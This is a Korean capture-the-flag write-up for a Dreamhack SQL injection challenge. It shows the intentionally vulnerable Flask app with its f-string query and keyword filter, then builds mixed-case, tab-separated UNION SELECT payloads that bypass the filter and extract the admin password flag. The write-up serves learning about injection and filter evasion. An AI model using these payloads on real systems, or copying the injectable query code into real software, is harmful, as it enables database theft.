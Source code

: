 <!DOCTYPE html>
<html>
<head>
        <link rel="stylesheet" type="text/css" href="sytle.css">
</head>
<body>
        <h1>Dreamhack Web Hacking SQL Injection Bypass WAF Write-Up</h1>
</body>
<br>
<br>
</html>

문제 서버로 접속해 보자

![image](https://github.com/user-attachments/assets/6e6732e0-14d2-4df5-b9d1-6f471de6207a)

uid 칸에 hello라고 입력하니 WHERE문으로 들어가는 것을 확인할 수 있었다.

![image](https://github.com/user-attachments/assets/564ebedf-e31c-43f5-9c07-379ad84feb01)

이어서 문제 파일을 다운로드 받았다.

app.py 파일과 init.sql 파일이 들어있다.

app.py
```python
import os
from flask import Flask, request
from flask_mysqldb import MySQL

app = Flask(__name__)
app.config['MYSQL_HOST'] = os.environ.get('MYSQL_HOST', 'localhost')
app.config['MYSQL_USER'] = os.environ.get('MYSQL_USER', 'user')
app.config['MYSQL_PASSWORD'] = os.environ.get('MYSQL_PASSWORD', 'pass')
app.config['MYSQL_DB'] = os.environ.get('MYSQL_DB', 'users')
mysql = MySQL(app)

template ='''
<pre style="font-size:200%">SELECT * FROM user WHERE uid='{uid}';</pre><hr/>
<pre>{result}</pre><hr/>
<form>
    <input tyupe='text' name='uid' placeholder='uid'>
    <input type='submit' value='submit'>
</form>
'''

keywords = ['union', 'select', 'from', 'and', 'or', 'admin', ' ', '*', '/']
def check_WAF(data):
    for keyword in keywords:
        if keyword in data:
            return True

    return False


@app.route('/', methods=['POST', 'GET'])
def index():
    uid = request.args.get('uid')
    if uid:
        if check_WAF(uid):
            return 'your request has been blocked by WAF.'
        cur = mysql.connection.cursor()
        cur.execute(f"SELECT * FROM user WHERE uid='{uid}';")
        result = cur.fetchone()
        if result:
            return template.format(uid=uid, result=result[1])
        else:
            return template.format(uid=uid, result='')

    else:
        return template


if __name__ == '__main__':
    app.run(host='0.0.0.0')
```

init.sql
```python
CREATE DATABASE IF NOT EXISTS `users`;
GRANT ALL PRIVILEGES ON users.* TO 'dbuser'@'localhost' IDENTIFIED BY 'dbpass';

USE `users`;
CREATE TABLE user(
  idx int auto_increment primary key,
  uid varchar(128) not null,
  upw varchar(128) not null
);

INSERT INTO user(uid, upw) values('abcde', '12345');
INSERT INTO user(uid, upw) values('admin', 'DH{**FLAG**}');
INSERT INTO user(uid, upw) values('guest', 'guest');
INSERT INTO user(uid, upw) values('test', 'test');
INSERT INTO user(uid, upw) values('dream', 'hack');
FLUSH PRIVILEGES;
```

먼저 소스코드를 살펴보니 

```python
keywords = ['union', 'select', 'from', 'and', 'or', 'admin', ' ', '*', '/']
def check_WAF(data):
    for keyword in keywords:
        if keyword in data:
            return True

    return False
```

요 부분에서 ```check_WAF()``` 함수를 통해 입력 값이 필터링 되고 있음을 알 수 있다.

필터링 과정에서 차단되는 단어는 union, select, from, and, or, admin, '', '*', '/'이다.

위 필터링을 우회할 수 있는 방법을 생각해보니 SQL에서는 SELECT와 select는 같은 것으로 취급된다. 

그러므로 WAF가 소문자만 필터링한다면 대문자 혹은 혼용 사용이 가능한 문자로 우회할 수 있을 것 같다. 

그리고 일반적인 공백(스페이스 바) 대신에 %09(탭)을 사용하면 우회할 수 있을 것 같다. 

위 두 방법을 적용하여 쿼리문을 작성해보면 다음과 같다.

```python
'%09Union%09Select%09upw%09From%09user%09where%09uid='Admin'#
```

![image](https://github.com/user-attachments/assets/1ff281cb-801a-4b88-aa36-9d2ab2493b11)

으악! 에러가 난다.

왜 에러가 나는지 곰곰히 생각해 보니 SQL의 UNION은 연산자를 사용할 때 앞 뒤 SELECT문에서 반환하는 컬럼 수가 일치하지 않으면 에러가 발생한다.

usr 테이블을 살펴보면 idx, uid, upw 3개의 컬럼이 있다.

```python
CREATE TABLE user(
  idx int auto_increment primary key,
  uid varchar(128) not null,
  upw varchar(128) not null
);
```

UNION을 사용하여 추가 데이터를 조회할 때도 3개의 컬럼을 반환하도록 해야 한다.

그리고 아래 소스코드에 따라 result[1] 즉, 두번째 컬럼의 값만을 반환하도록 설정되어 있으므로 upw를 두번째 위체에 쿼리해야한다.
```python
if result:
            return template.format(uid=uid, result=result[1])
```

컬럼수를 맞추기 위해 null값을 넣어 다시 쿼리문을 작성해 보면

```python
'Union Select null,(Select upw From user where uid='ADMIN'),null#'
```

url 인코딩으로 변환해 주면

```python
%27Union%09Select%09null,(Select%09upw%09From%09user%09where%09uid=%27ADMIN%27),null%23
```

![image](https://github.com/user-attachments/assets/66a7929a-42d5-4e7c-9eaf-4ff0d5771da5)

FLAG를 얻었다!!
DH{bc818d522986e71f9b10afd732aef9789a6db76d}

